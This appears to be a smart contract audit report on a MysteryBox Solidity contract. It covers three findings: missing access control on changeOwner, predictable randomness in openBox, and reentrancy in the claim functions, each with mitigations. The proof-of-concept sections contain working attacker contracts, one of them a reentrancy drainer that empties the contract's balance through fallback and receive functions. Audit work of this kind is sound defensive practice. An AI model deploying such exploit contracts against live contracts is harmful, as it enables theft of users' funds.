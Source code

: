### H-3 Lack of access control on `MysteryBox::changeOwner` allows anyone to change the owner

**Description**
In `MysteryBox::changeOwner` function, there is no access control so anyone can change the owner.
**Impact**
Anyone can change the owner. Owner has ability to set the price of boxes, add new rewards, and withdraw funds. Anyone can be owner and withdraw funds.

**Recommended mitigation**

```diff

    function changeOwner(address _newOwner) public {
+        require(msg.sender == owner, "Only owner can change the owner");
        owner = _newOwner;
    }
```

### H-2 Week randomness in `MysteryBox::openBox` allows users to influence or predict rewards

**Description**
Hashing `msg.sender` and `block.timestamp` together creates a predictable value that can be used to determine the reward. Malicious user can use this predictable value to influence the rewards and get a higher reward than expected. Also a user can mine an address to get a higher reward than expected.
Additionally, a user can front-run the `MysteryBox::openBox` function and if the reward is not higher than expected user simply reverts the transaction.

**Impact**
User can get a higher reward than expected.

**Proof of Concepts**

1-Attacker sets up a contract with a attack funtion to buy a box and open it.
2-If the reward is not higher than expected, attacker can revert the transaction.

Additionally,
3-Validators can know ahead of time the `block.timestamp` and use that to predict when/how to open the box.

**Proof of Code**

<details>
<summary>Code</summary>

Place to following into `TestMysteryBox.t.sol`

```javascript
    function testGetHigherReward() public {
        MaliciousUser attackerContract = new MaliciousUser{value: 0.1 ether}(address(mysteryBox));
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        vm.prank(attackUser);
        vm.expectRevert();
        attackerContract.buyBox();
    }
```

And this contact as well

```javascript
contract MaliciousUser {
    MysteryBox public mysteryBox;

    constructor(address _address) payable {
        mysteryBox = MysteryBox(_address);
    }

    function buyBox() public payable {
        mysteryBox.buyBox{value: 0.1 ether}();
        mysteryBox.openBox();
        MysteryBox.Reward[] memory rewards = mysteryBox.getRewards();

        if (rewards[0].value < 0.5 ether) {
            revert();
        }
    }
}
```

</details>

**Recommended mitigation**

Consider using crytographically secure random number generation such as Chainlink VRF.

### H-1 Reentrancy attack in `MysteryBox::claimAllRewards` and `MysteryBox::claimSingleReward` allows entrant to drain conract balance

**Description**
The `MysteryBox::claimAllRewards` and `MysteryBox::claimSingleReward` functions doesnt follow the CEI (checks-effects-interactions pattern) and as a result, enables anyone who has claimable rewards to drain the contract balance.
In the `MysteryBox::claimAllRewards` and `MysteryBox::claimSingleReward` functions, we first make an external call to the `msg.sender` to transfer the rewards. only after we delete from `MysteryBox::rewardsOwned` array.

```javascript
    function claimAllRewards() public {
        uint256 totalValue = 0;
        for (uint256 i = 0; i < rewardsOwned[msg.sender].length; i++) {
            totalValue += rewardsOwned[msg.sender][i].value;
        }
        require(totalValue > 0, "No rewards to claim");

@>      (bool success,) = payable(msg.sender).call{value: totalValue}("");
        require(success, "Transfer failed");

@>      delete rewardsOwned[msg.sender];
    }
```

```javascript
    function claimSingleReward(uint256 _index) public {
        require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
        uint256 value = rewardsOwned[msg.sender][_index].value;
        require(value > 0, "No reward to claim");
@>      (bool success,) = payable(msg.sender).call{value: value}("");
        require(success, "Transfer failed");

@>      delete rewardsOwned[msg.sender][_index];
    }
```

A user who has claimable rewards could have a `fallback/receive` function that calls the
`MysteryBox::claimAllRewards` or `MysteryBox::claimSingleReward` function again and call same function again. They would continue to the cyle till drain the contract balance.

**Impact**
All contract balance could be stolen by the malicious user.

**Proof of Concepts**
1-Attacker sets up a contract with a `fallback/receive` function that calls the `MysteryBox::claimAllRewards` or `MysteryBox::claimSingleReward` function.
2-Attacker buy a box and open it.
3-Attacker calls the `MysteryBox::claimAllRewards` or `MysteryBox::claimSingleReward` function from their attacker contract draining the contract balance.

**Proof of Code**

<details>
<summary>Code</summary>

Place to following into `TestMysteryBox.t.sol`

```javascript
  function testReentrance() public {
        ReenrancyAttacker attackerContract = new ReenrancyAttacker{value: 0.1 ether}(address(mysteryBox));
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttarckerBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(mysteryBox).balance;

        vm.prank(attackUser);

        vm.warp(9001); // on 9001 block timestamp with attacker contract gets a claimable reward
        attackerContract.buyBox();
        attackerContract.attack();

        console2.log("Starting Attacker Balance:", startingAttarckerBalance);
        console2.log("Starting Contract Balance:", startingContractBalance);

        console2.log("ending Attacker Balance:", address(attackerContract).balance);
        console2.log("ending Contract Balance:", address(mysteryBox).balance);
    }
```

And this contact as well

```javascript
contract ReenrancyAttacker {
    MysteryBox public mysteryBox;

    constructor(address _address) payable {
        mysteryBox = MysteryBox(_address);
    }

    function buyBox() public payable {
        mysteryBox.buyBox{value: 0.1 ether}();
        mysteryBox.openBox();
    }

    function attack() public {
        mysteryBox.claimAllRewards();
    }

    fallback() external payable {
        if (address(mysteryBox).balance > 0) {
            attack();
        }
    }

    receive() external payable {
        if (address(mysteryBox).balance > 0) {
            attack();
        }
    }
}
```

</details>

**Recommended mitigation**

To prevent this, we should have the `MysteryBox::claimAllRewards` function update the `MysteryBox::rewardsOwned` array before the external call.

```diff
    function claimAllRewards() public {
        uint256 totalValue = 0;
        for (uint256 i = 0; i < rewardsOwned[msg.sender].length; i++) {
            totalValue += rewardsOwned[msg.sender][i].value;
        }
        require(totalValue > 0, "No rewards to claim");


+        delete rewardsOwned[msg.sender];

        (bool success,) = payable(msg.sender).call{value: totalValue}("");
        require(success, "Transfer failed");

-        delete rewardsOwned[msg.sender];
    }
```

```diff
    function claimSingleReward(uint256 _index) public {
        require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
        uint256 value = rewardsOwned[msg.sender][_index].value;
        require(value > 0, "No reward to claim");
+       delete rewardsOwned[msg.sender][_index];
        (bool success,) = payable(msg.sender).call{value: value}("");
        require(success, "Transfer failed");

-       delete rewardsOwned[msg.sender][_index];
    }
```
